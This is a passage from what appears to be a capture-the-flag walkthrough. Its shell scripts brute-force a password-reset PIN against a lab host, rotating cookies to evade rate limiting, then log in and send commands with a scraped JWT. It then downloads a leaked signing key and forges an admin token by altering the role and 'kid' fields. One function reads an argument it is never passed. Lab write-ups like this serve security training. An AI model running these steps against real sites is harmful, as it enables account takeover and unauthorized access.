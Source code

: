 ```sh
                echo "Rate limit hit: $pin"
                echo "trying new cookies..."
                get_session
                echo "Retrying pin..."
                attempt_pin $pin
        else
                echo "SUCCESS:" $pin
                response=$(curl -sL $reset -d "new_password=$pass" -d "confirm_password=$pass" --cookie cookie.txt --cookie-jar cookie.txt)
                echo $response > result.html
                exit
        fi
}
```

### 9. Login with reset credentials
Now we've reset the user's password. We'll login to it using the code below:
- login
- scrape the token
- send a command

```sh
function login()
{
	curl -sL $url -d "email=$email" -d "password=$pass" --cookie cookie.txt --cookie-jar cookie.txt -o result.html
	token=$(grep -Eo "jwtToken = '(.*)';" result.html | awk -F\' '{print $2}')
	send_ls $token
}
```
### 10. Send ls
Check to see what commands you can run. 

```sh
function send_ls()
{
	token=$2
	curl -sL $x -d '{"command": "ls"}' -H 'Content-Type: application/json' -H "Authorization: Bearer $token" --cookie-jar cookie.txt --cookie cookie.txt
}
```

We can see that someone accidently uploaded a key to the web root. We'll download this the file and view it.
```sh
wget http://10.10.10.10/jwt.key

cat jwt.key
```
### 10. Modify the token
- Copy the jwt from the web page and insert it into [jwt.io]('https://jwt.io'). 
- Near the bottom under verify signature paste the contents of the `jwt.key`. 
- Change the role to `role: admin`
- Change the kid to the file `/var/www/html/jwt.key`
